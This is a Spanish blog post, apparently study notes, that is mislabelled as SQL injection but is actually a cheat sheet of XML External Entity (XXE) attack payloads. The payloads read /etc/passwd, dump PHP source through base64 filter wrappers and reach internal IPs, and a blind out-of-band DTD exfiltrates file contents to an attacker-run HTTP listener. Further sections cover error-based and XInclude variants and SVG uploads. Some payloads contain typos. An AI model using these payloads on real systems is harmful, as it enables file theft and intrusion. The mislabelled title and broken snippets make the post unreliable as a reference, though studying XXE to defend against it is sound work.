 ```yaml
---
title: "SQL Inyection"
date: 2023-09-19
categories: [Vectores-de-Ataque]
tags: 
  - xxe-injection
  - xxe
image:
    path: ../../assets/Miniaturas/VectoresDeAtaque/sql-analisis-negocio-cursin.jpg
    width: 800
    height: 500
---
```


> [PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# Entidades
- Genéricas / Customizadas
- Externas (XXE)
- Pre-definidas

## Inyecciones Básicas
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>
```

> Esto lo que va a hacer es intentar listar un archivo que reside dentro de la máquina victima mediante un "wrapper" en este caso "file:///"
{: .prompt-info }

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
    <bugreport>
    <title>&xxe;</title>
    <cwe>test</cwe>
    <cvss>test</cvss>
    <reward>test</reward>
    </bugreport>
```

> Este "wrapper" sirve para que te reporte un archivo .php que reside en la máquina victima en formato "base64" de manera que asi lo puedes decodear con "base64 -d" y analizar el codigo que esta corriendo por detrás
{: .prompt-info }

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://<ip_interna>/<file>"> ]>
<bugreport>
<title>&xxe;</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```

> Con esto lo que podemos hacer es acceder a una IP interna que se encuentre dentro de la red y obtener datos de algún archivo o lo que queramos
{: .prompt-info }

## Inyecciones a Ciegas
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://<ip_externa>/<file>"> %xxe;]>
<bugreport>
<title>test</title>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % eval "<<!ENTITY &#x25; exfil SYSTEM 'http://<local_ip>/?file=%file;'>"> 
%eval
%exfil
```
```shell
# Ahora nos ponemos por escucha por el puerto 80
python3 -m http.server 80
```

![](../../assets/VectoresDeAtaque/SQL-Inyection/1.jpg)

> Lo que esta pasando aqui es que de cara a la estructura XXE no nos permite poner entidades (&xxe;)

Por lo tanto lo que esta pasando es que se esta comunicando con un recurso que hemos creado en mi sistema que ya tiene definida entidades XXE por lo tanto la web apunta a nuestro recurso y realiza lo que le hemos indicado en nuestro archivo malicioso y nos lo reporta por pantalla en base64
{: .prompt-info }

## Inyecciones vía mensajes de error
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://<ip_externa>/<file>"> %xxe; ]>
<bugreport>
<title>&xxe;</titl1e>
<cwe>test</cwe>
<cvss>test</cvss>
<reward>test</reward>
</bugreport>
```
![](../../assets/VectoresDeAtaque/SQL-Inyection/2.jpg)

> Como vemos nos da error a si que vamos a aprovecharnos de esto para que despues de el error nos carge el archivo que queramos
{: .prompt-info }

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///meloinvento/%file;'>">
%eval;
%exfil;
```

> Lo que esta pasando aqui es que nosotros ocasinamos el error poniendo un archivo que no existe y como nosotros de cara a trámitar la petición ya estamos cargando la entidad en la propia web a si que despues de el erro obtendremos el archivo indicado en este caso "/etc/passwd"
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/3.jpg)

## Inyecciones Xinclude Attack

> Cuando la petición se trámita de manera que no tiene una estructura XML podemos realizar este ataque
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/4.jpg)

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"></foo>
```

## Inyecciones vía subida de imagen

> Estas inyecciones se las puedes ver como en este caso al poner un comentario, creamos nuestro archivo que contenga:
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/5.jpg)

![](../../assets/VectoresDeAtaque/SQL-Inyection/6.jpg)

> Si da error o algo lo que podemos hacer es añadirle una extension como .svg , .jpg, .png etc
{: .prompt-info }

![](../../assets/VectoresDeAtaque/SQL-Inyection/7.jpg)

> Como vemos la propia data nos la representa en la imagen
{: .prompt-info }

